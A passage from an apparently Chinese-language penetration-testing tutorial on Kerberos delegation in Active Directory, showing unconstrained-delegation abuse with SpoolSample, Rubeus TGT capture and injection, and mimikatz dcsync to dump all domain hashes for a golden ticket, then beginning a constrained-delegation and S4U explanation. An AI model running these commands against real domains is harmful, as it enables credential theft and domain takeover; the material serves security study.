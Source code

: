 向 DC 的 `Spooler` 服务发送请求，强制其访问 win7 进行身份验证：`SpoolSample.exe DC win7`

可以用 `Rubeus` 来监听 `Event ID` 为 `4624` 事件，这样可以第一时间截取到域控的，每隔一秒监听一次来自 DC 的登陆（需要本地管理员权限）TGT：`Rubeus.exe monitor /interval:1 /filteruser:DC$`

**注**：Rubeus.exe 捕获到的 TGT 是 base64 编码的，但是我们不需要解码，`Rubeus` 可以直接将 base64 编码的票据直接注入到内存中：`Rubeus.exe ptt /ticket:base64`

得到 TGT 之后，利用 PTT 将票据注入到当前会话后，可以用 `dcsync` 导出域控中所有用户的 hash，然后用 `krbtgt` 用户的 hash 生成黄金票据。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>kerberos::ptt xxxx.kirbi<br><br>lsadump::dcsync /domain:test.local /all /csv<br>``` |

## [](#3-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)3 约束委派

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

由于非约束委派的不安全性，微软在 `windows server 2003` 中引入了约束委派，对 Kerberos 协议进行了拓展，引入了 `S4U`，其中 `S4U` 支持两个子协议：`Service for User to Self (S4U2Self)` 和 `Service for User to Proxy (S4U2proxy)`，这两个扩展都允许服务代表用户从 KDC 请求票证。`S4U2self` 可以代表自身请求针对其自身的 Kerberos 服务票据 (ST)；`S4U2proxy` 可以以用户的名义请求其它服务的 ST，约束委派就是限制了 `S4U2proxy` 扩展的范围。

`S4U2Self` 和 `S4U2proxy` 的请求过程（图来自微软手册）：

其中步骤 1-4 代表 `S4U2Self` 请求的过程，步骤 5-10 代表 `S4U2proxy` 的请求过程

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200506195543.png-water_print](assets/1699409170-a4e76a60807c80600ff186ef315666cd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200506195543.png-water_print")
